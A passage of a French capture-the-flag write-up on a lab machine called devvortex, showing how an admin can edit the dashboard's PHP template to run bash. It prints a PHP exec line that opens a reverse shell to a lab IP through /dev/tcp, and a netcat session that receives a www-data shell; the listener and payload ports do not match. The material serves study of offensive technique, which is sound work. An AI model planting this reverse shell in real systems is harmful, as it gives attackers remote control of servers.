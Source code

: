 ### Dashboard
Il se trouve que ce dashboard utilise une **template**. La page de login également. Ce sont des modèles tout prêt, du code php déjà écrit qu'il faut juste importer. Il se trouve que depuis le dashboard, on peut modifier les templates qui sont utilisées pour le dashboard et pour la page de login. Notament le code php. On va donc pouvoir modifier le code php du dashboard par exemple pour exectuer une commande bash et créer un reverse shell pour obtenir un acces sur la machine.

### Reverse shell
On modifie le code php de la page d'administration pour créer un reverse shell
![reverse shell](image.png)
![reverse shell real command](image-1.png)
```bash
<?php
exec('/bin/bash -c "exec nohup bash -i >& /dev/tcp/10.10.14.109/44446 0>&1 &"');
...
?>
-------------------------------------------------------------------------------
~ » nc -lvp 44444                                       leopold@leopold-PC-FIXE
Listening on 0.0.0.0 44444
Connection received on devvortex.htb 53842
bash: cannot set terminal process group (875): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb/administrator$ whoami
whoami
www-data
```
